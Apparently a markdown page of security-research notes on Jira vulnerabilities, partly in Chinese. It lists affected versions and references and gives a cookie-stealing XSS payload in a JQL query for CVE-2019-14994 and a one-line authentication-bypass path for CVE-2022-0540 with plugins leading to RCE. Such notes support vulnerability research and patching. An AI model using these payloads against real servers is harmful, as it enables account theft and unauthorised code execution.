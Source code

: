 ### CVE-2019-14994
```
jql=issuetype%20%3D%20Epic%20AND%20%22Story%20Points%22%20%3C%3D%20%22%5C%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E%22%20AND%20%22Story%20Points%22%20%3E%3D%20%221%22
```

#### Ref
- https://github.com/bugbounty-site/exploits/blob/master/CVE-2019-14994/exploit.py

### [CVE-2021-26086] Jira受限文件读取绕过
- [CVE-2021-26086(CVE-2021-26085)受限文件读取挖掘分析](https://tttang.com/archive/1323/)
- [jira环境搭建及受限文件读取原理和深思CVE-2021-26086](https://xz.aliyun.com/t/10922)

### [CVE-2021-39115] Template Injection in Email Templates leads to code execution on Jira Service Management Server
- https://github.com/PetrusViet/CVE-2021-39115
- [Atlassian JIRA服务器模板注入漏洞分析及挖掘](https://xz.aliyun.com/t/11354)

### [CVE-2022-0540] Jira Seraph认证绕过
影响的产品：
```
Jira
Jira Core Server
Jira Software Server
Jira Software Data Center
Jira Service Management
Jira Service Management Server
Jira Service Management Data Center
```
影响版本：
对于Jira Core Server/Jira Software Server/Jira Software Data Center
```
All versions before 8.13.18
8.14.x
8.15.x
8.16.x
8.17.x
8.18.x
8.19.x
8.20.x before 8.20.6
8.21.x
```
对于Jira Service Management Server/Jira Service Management Data Center
```
All versions before 4.13.18
4.14.x
4.15.x
4.16.x
4.17.x
4.18.x
4.19.x
4.20.x before 4.20.6
4.21.x
```


### PoC
```
/InsightPluginShowGeneralConfiguration.jspa;
```
### 已知的可利用插件
- [WBS Gantt-Chart for Jira](https://marketplace.atlassian.com/apps/1211768/wbs-gantt-chart-for-jira?hosting=datacenter&tab=versions): Preauth RCE (you can write any Java code with beanshell).
- [Insight - Asset Management](https://marketplace.atlassian.com/apps/1212137/insight-asset-management?tab=overview&hosting=datacenter): Bundled with Jira Service Management Server and Data Center, View, change Insight configuration (can RCE with object schema manager permissions by change the groovy script whitelist).


Ref:
- https://github.com/adampielak/nuclei-templates/blob/41b5ac924c9324599d979bc1f36c058f167b31d4/CVE-2022-0540.yaml
- https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
- https://confluence.atlassian.com/jira/jira-security-advisory-2022-04-20-1115127899.html
